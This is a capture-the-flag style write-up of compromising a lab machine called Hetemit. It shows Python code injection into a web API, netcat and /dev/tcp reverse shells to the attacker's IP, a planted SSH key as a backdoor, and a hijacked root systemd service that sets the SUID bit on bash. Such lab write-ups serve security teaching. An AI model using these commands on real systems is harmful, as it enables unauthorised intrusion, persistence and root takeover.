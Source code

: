 # Hetemit

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.201.117
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-08 15:27 +08
Warning: 192.168.201.117 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.201.117
Host is up (0.18s latency).
Not shown: 65479 filtered tcp ports (no-response), 49 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
18000/tcp open  biimenu
50000/tcp open  ibm-db2
```

Lots of ports. FTP allows for anonymous access, but just hangs.&#x20;

### Web Enumeration --> Python Code Injection

Port 80 had the default Apache HTTP Server:

<figure><img src="../../../.gitbook/assets/image (1177).png" alt=""><figcaption></figcaption></figure>

Ran a directory scan on this and didn't find much.

Port 50000 had a simple API running:

<figure><img src="../../../.gitbook/assets/image (181).png" alt=""><figcaption></figcaption></figure>

If we use the `/generate` option, it just returns us this:

```
$ curl http://192.168.201.117:50000/generate
{'email@domain'}
```

I tried sending POST requests to this:

<figure><img src="../../../.gitbook/assets/image (983).png" alt=""><figcaption></figcaption></figure>

Not too sure what to do with that token. However, we notice that this is running a Python server. The `/verify` endpoint also accepts POST requests, but it always seems to fail:

<figure><img src="../../../.gitbook/assets/image (3207).png" alt=""><figcaption></figcaption></figure>

Since this was running a Python based server, we can try some Python code injection.&#x20;

<figure><img src="../../../.gitbook/assets/image (3557).png" alt=""><figcaption></figcaption></figure>

This looks like it works. Another test confirms that it works:

<figure><img src="../../../.gitbook/assets/image (759).png" alt=""><figcaption></figcaption></figure>

So this script has the `os` module imported, meaning we can get an easy reverse shell:

```python
os.system("nc -e /bin/bash 192.168.45.191 21")
```

<figure><img src="../../../.gitbook/assets/image (3136).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Misconfigured Services + Reboot

The user is able to reboot the system:

```
[cmeeks@hetemit ~]$ sudo -l
Matching Defaults entries for cmeeks on hetemit:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User cmeeks may run the following commands on hetemit:
    (root) NOPASSWD: /sbin/halt, /sbin/reboot, /sbin/poweroff
```

This indicates to me that there is some kind of startup script to exploit. I ran a `linpeas.sh` scan on the machine to enumerate, and it found quite a few misconfigured services:

<figure><img src="../../../.gitbook/assets/image (1224).png" alt=""><figcaption></figcaption></figure>

We can overwrite this to execute a script that gives us a reverse shell. I included the SUID bit in my script just in case the shell doesn't work:

```bash
#!/bin/bash

chmod u+s /bin/bash
bash -i >& /dev/tcp/192.168.45.191/18000 0>&1
```

I also included my SSH key within the `authorized_keys` folder for backdoor access.

```bash
cd ~
mkdir .ssh
echo 'KEY' >> .ssh/authorized_keys
chmod 600 .ssh/authorized_keys
chmod 700 .ssh
```

Afterwards, using `vi` we can edit the service file:

```
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
ExecStart=/home/cmeeks/shell.sh
TimeoutSec=30
RestartSec=15s
User=root
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

Then, we can run `sudo /sbin/reboot` to restart the machine. Then we just have to wait for a bit before we can SSH back in. The reverse shell didn't work for some reason, but the SUID binary command did:

<figure><img src="../../../.gitbook/assets/image (1231).png" alt=""><figcaption></figcaption></figure>

Rooted!

